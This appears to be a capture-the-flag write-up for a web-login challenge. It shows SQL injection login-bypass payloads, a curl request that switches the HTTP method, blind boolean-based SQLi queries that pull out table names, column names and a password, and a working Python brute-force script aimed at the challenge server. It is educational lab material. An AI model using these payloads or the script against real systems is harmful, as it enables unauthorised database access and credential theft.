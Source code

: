 # Flag0
Firstly, I have to login before doing anything. A login form has appeard and SQL Injection is the first I got in my mind.
```
username: admin'or/**/1=1--+-
password: 1
```
We got an error
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```
--> This application is using `SQL` and `MariaDB` 
I have tried a lot with `or` and `1=1` but it seems a wrong way.
Look at the query, I think it doesn't response anything, so I use `union` to bypass this thing
```
// Replace `--+-` to `#` 
username: admin' union select '1' as password #
password: 1
```
And the frist flag in private page
```
Flag is : ^FLAG^d0e601294c1ecc7f76fd8185b5a49178d6b7616a68e33d4bcde1d9c7ecbe079c$FLAG$
```
# Flag1
Secondly, I got a hint `Just because request fails with one method doesn't mean it will fail with a different method`. After that, I use BurpSutie to intercept the request and change method from `GET` to `POST`, but I always receive `BAD REQUEST The browser (or proxy) sent a request that this server could not understand.` 😶
Okay fine, I decide to use `curl` tool in Kali for this purpose.
```
curl -v -X POST http://35.190.155.168/2ef1ae5437/page/edit/2
```
```
Flag is : ^FLAG^09c2a73b2205519aa65ff713904d07024f36b1c4ce0bfaab7d25b567aa1596c9$FLAG$
```
# Flag2
Finally, I got final hint `Credentials are secret, flags are secret. Coincidence?`. This credentials are mentioned might be the password of someone else in database. So, back to login page and SQLi to find the password.

You can use `sqlmap` to automaticly brute force, but I'll code in Python or use Burp Suite to understand what I am doing

```
username: admin' union select if(substr((select database() from information_schema.tables where table_name=),1,1)='a','1',0) as password #
password: 1
```
I got an error, `level2` may be the database's name
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1146, "Table 'level2.information_schema' doesn't exist")
```
Use Burp Suite to intercept password and send it to `Repeater`
- Payload is [a-zA-z0-9]
- Flag is `Invalid password`
```
username: admin' union select if(substr((select group_concat(table_name,',') from information_schema.tables where talbe_type='base table'),1,1)='a','1',0) as password #
password: 1
```
--> The table'name I got is `admins`

Next, I brute froce column name
```
username: admin' union select if(substr((select group_concat(column_name,',') from information_schema.columns where table_name='admins'),1,1)='a','1',0) as password #
password: 1
```
--> `id, username, password`

And brute force the password
```
username: admin' union select if(substr((select group_concat(password,'|') from admins),1,1)='a','1',0) as password #
password: 1
```
--> `sally`

Login with the following credentials and get the flag
```
Flag is : ^FLAG^f0d9708f40a0406ac7f4ebda750603ecc333a3e375f20cc1124dd8167e7adfb7$FLAG$
```

Sorry for my shilly code 😅 Just a draft
```python
import string
import requests

URL = "http://35.190.155.168/2ef1ae5437/login"
TRUE_PHRASE = 'Invalid password'

def query(body):
    # cookies = {'PHPSESSID': PHPSESSID}
    r = requests.post(URL, data=body)
    return TRUE_PHRASE not in r.text

def findColumnName():
    column = ''
    i = 1
    while True:
        for character in string.printable:
            body = {'username': "admin' union select if(substr((select group_concat(column_name,',') from information_schema.columns where table_name='admins'),{0},1)='{1}','1',0) as password #".format(i, character),'password': '1'}
            if query(body) is True:
                column += character
                print(column)
                break
        i += 1


def findPassword():
    column = ''
    i = 1
    while True:
        for character in string.printable:
            body = {'username': "admin' union select if(substr((select group_concat(password,'|') from admins),{0},1)='{1}','1',0) as password #".format(i, character),'password': '1'}
            if query(body) is True:
                column += character
                print(column)
                break
        i += 1
# findColumnName()
findPassword()
```
